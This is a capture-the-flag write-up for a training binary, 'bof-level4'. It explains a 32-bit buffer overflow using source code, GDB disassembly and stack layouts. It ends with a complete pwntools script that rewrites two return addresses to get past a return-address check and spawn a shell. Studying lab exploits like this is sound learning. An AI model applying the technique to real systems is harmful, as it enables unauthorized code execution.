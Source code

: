 # Analysis
For this challenge, we were provided the source code and a binary. The goal is to use a buffer overflow to call the `get_a_shell()` functions.
I used python's `pwntools` library to create and send the payload. 

Since we have the source code, we can start by looking there. 

```c
int my_return_address = 0;
int new_return_address = 0;

int main() {
    receive_input();
}
```

The main function is pretty sparse, just calls `receive_input()`, so let's look at that next.

```c
void receive_input() {
    printf("I will store my return address to the global area first,\n"
            "and get the back the stored value to protect my stack!\n");

    asm volatile("mov 0x4(%%ebp), %0" :"=r"(my_return_address)::"memory");
    printf("my_return_address is %p\n", (void*)my_return_address);

    int a = 0x41414141, b = 0x42424242;
    char buf[20];

    printf("Values in two local variables are:\n"
            "a = 0x%08x and b = 0x%08x\n", a, b);

    printf("Can you change these values to:\n"
            "a = 0x48474645 and b = 0x44434241?\n");

    printf("Type YES if you agree with this... "
            "(a fake message, you may overflow the input buffer).\n");
    fgets(buf, 128, stdin);

    printf("Now the variables store:\n"
            "a = 0x%08x b = 0x%08x\n", a, b);

    if(a == 0x48474645 && b == 0x44434241) {
        printf("Great, but I will not execute get_a_shell() for you..\n");
        printf("Run it yourself!\n");
    }
    else {
        printf("Analyze the program!\n");
        exit(-1);
    }

    printf("Let's check the new return address\n");

    asm volatile("mov 0x4(%%ebp), %0" :"=r"(new_return_address)::"memory");

    printf("Previous ret addr %p, new ret addr %p\n",
        (void*)my_return_address, (void*)new_return_address);

    if(my_return_address != new_return_address) {
        printf("You have changed the return address, attack detected!\n");
        exit(-1);
    }
}
```
Two noteworthy things:
1. The buffer is only allocated 20 bytes, but `fgets` is taking in 128
2. The function checks to see if the return address is changed, and if it is it exits rather than returning

Changing the variables is fairly straightforward. A quick look at GDB confirms what gets pushed onto the stack.

```gdb
   0x08049250 <+0>:     push   %ebp
   0x08049251 <+1>:     mov    %esp,%ebp
   0x08049253 <+3>:     push   %ebx

...

   0x0804929b <+75>:    movl   $0x41414141,-0x8(%ebp)
   0x080492a2 <+82>:    movl   $0x42424242,-0xc(%ebp)

...

   0x080492e7 <+154>:   mov    -0x20(%ebp),%ecx

...

   0x080492fb <+171>:   mov    %ecx,(%esp)
   0x080492fe <+174>:   movl   $0x80,0x4(%esp)
   0x08049306 <+182>:   mov    %eax,0x8(%esp)
   0x0804930a <+186>:   call   0x8049060 <fgets@plt>
```

This means that the stack looks something like this:
```
[ebp +  0x4]    return address
[ebp]           previous ebp   
[ebp -  0x4]    ebx
[ebp -  0x8]    0x41414141 (AAAA)
[ebp -  0xc]    0x42424242 (BBBB)
[ebp - 0x10]
[ebp - 0x14]
[ebp - 0x18]
[ebp - 0x1c] 
[ebp - 0x20]    buffer
```

Now we can create our string to overflow the return address. 

```py
ri_str = b'a' * 20 + b'ABCDEFGH' + b'_EBX_EBP' + b'aaaa'
```

```
$ ./p.py
[+] Starting local process './bof-level4': pid 1056071
[*] Switching to interactive mode
[*] Process './bof-level4' stopped with exit code 255 (pid 1056071)
I will store my return address to the global area first,
and get the back the stored value to protect my stack!
my_return_address is 0x8049426
Values in two local variables are:
a = 0x41414141 and b = 0x42424242
Can you change these values to:
a = 0x48474645 and b = 0x44434241?
Type YES if you agree with this... (a fake message, you may overflow the input buffer).
Now the variables store:
a = 0x48474645 b = 0x44434241
Great, but I will not execute get_a_shell() for you..
Run it yourself!
Let's check the new return address
Previous ret addr 0x8049426, new ret addr 0x61616161
You have changed the return address, attack detected!
[*] Got EOF while reading in interactive
```

Because of the return address check, this doesn't work. However, the program lets us write a lot of bytes and `main()` doesn't appear to exit. 
That means we might be able to overwrite `receive_input`'s return address with its original address and use `main`'s return address to call `get_a_shell()` instead. 

Another look at gdb tells us what we need to know about main. 

```gdb
   0x08049410 <+0>:     push   %ebp
   0x08049411 <+1>:     mov    %esp,%ebp
   0x08049413 <+3>:     push   %ebx
   0x08049414 <+4>:     push   %eax
   0x08049415 <+5>:     call   0x804941a <main+10>
   0x0804941a <+10>:    pop    %ebx
   0x0804941b <+11>:    add    $0x2be6,%ebx
   0x08049421 <+17>:    call   0x8049250 <receive_input>
   0x08049426 <+22>:    xor    %eax,%eax
   0x08049428 <+24>:    add    $0x4,%esp
   0x0804942b <+27>:    pop    %ebx
   0x0804942c <+28>:    pop    %ebp
   0x0804942d <+29>:    ret
```

And again the stack:
```
[ebp + 0x4]    return address
[ebp]          prev. ebp
[ebp - 0x4]    ebx
[ebp - 0x8]    eax
````
Again, we use this to create the string that will overflow the return address, and we can modify the string from 
`receive_input()`. 

```py
ri_str = b'a' * 20 + b'ABCDEFGH' + b'_EBX_EBP' + p32(original_return_addr)
main_str = b'_EAX_EBX_EBP' + p32(get_a_shell_addr)
```

Getting the original return address is simple, as the program prints it out. Getting `get_a_shell`'s address is
as simple as looking it up in gdb. 

```gdb
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x080491d0  get_a_shell
0x08049250  receive_input
0x08049410  main
...
```

# Full Script + Solve
```py
#!/usr/bin/python3

from pwn import *

p = process("./bof-level4")
orig_ret = 0x8049426
gas_addr = 0x80491d0

ri_str = b'a' * 20 + b'ABCDEFGH' + b'_EBX_EBP' + p32(orig_ret)
main_str = b'_EAX_EBX_EBP' + p32(gas_addr)

p.sendline(ri_str + main_str)

p.interactive()
```
```
$ ./p.py
[+] Starting local process './bof-level4': pid 1056856
[*] Switching to interactive mode
I will store my return address to the global area first,
and get the back the stored value to protect my stack!
my_return_address is 0x8049426
Values in two local variables are:
a = 0x41414141 and b = 0x42424242
Can you change these values to:
a = 0x48474645 and b = 0x44434241?
Type YES if you agree with this... (a fake message, you may overflow the input buffer).
Now the variables store:
a = 0x48474645 b = 0x44434241
Great, but I will not execute get_a_shell() for you..
Run it yourself!
Let's check the new return address
Previous ret addr 0x8049426, new ret addr 0x8049426
Spawning a privileged shell

$ cat flag
cand{S1mpl3_c0pY_c4nT_pR0t3cT_retaddr}
```


